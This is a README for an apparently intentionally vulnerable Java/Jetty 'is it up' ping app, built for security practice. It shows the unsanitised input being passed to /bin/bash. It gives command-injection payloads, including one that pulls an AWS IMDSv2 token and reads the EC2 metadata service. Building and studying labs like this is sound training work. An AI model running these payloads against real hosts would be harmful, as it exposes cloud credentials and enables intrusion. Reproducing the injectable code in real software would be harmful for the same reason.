


# Vulnerable Java Webapp

A simple java based webapp which contains a code injection vulnerability. 
This is a vulnerable application for use in security testing and practice ONLY. Do not deploy anywhere in production!
 

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [Exploitation](#license)
- [Vulnerability](#vulnerability)

## Features

I needed a simple app for security testing in AWS, in Java!
The premise is a simple "is it up" type app, which executes a ping in the background.

- Simple standalone application
- Uses jetty for simple setup
- Includes command injection vulnerability
- Can be leverged to SSRF in an AWS environment, for example to gather data from the AWS metadata service
- appspec and buildspec installedif you'd like to deploy using a code pipeline in AWS




## Installation

Clone the repo and ensure you have maven installed.
If deploying in AWS I recommend deploying to an Amazon Linux instance (this is where I tested it), but Ubuntu should work too.


## Usage

Either use the app as standalone with `mvn jetty:run` or deploy as part of an AWS code pipeline.

Note that AWS requires some specific syntax to invoke long running commands as part of a deployment, hence the
`mvn jetty:run> /dev/null 2> /dev/null < /dev/null &` in start.sh


## Exploitation

A couple of ways to exploit the app:

**Code execution:**

```google.com && whoami```


**SSRF exploit:**

```google.com && TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/ > output && cat output```


## Vulnerabilty 
The vulnerable code is within CommandExecutorServlet.java, where we accept unsantized user input:

```
if (command != null && !command.isEmpty()) {
  // Modify the command to include "ping -c 4" and the user-provided command
  String fullCommand = "ping -c 4 " + command;

  // Execute the command (handle security and sanitization here)
  String result = executeCommand(fullCommand);
```

And then pass it to bash....

```Process process = new ProcessBuilder("/bin/bash", "-c", command).start();```


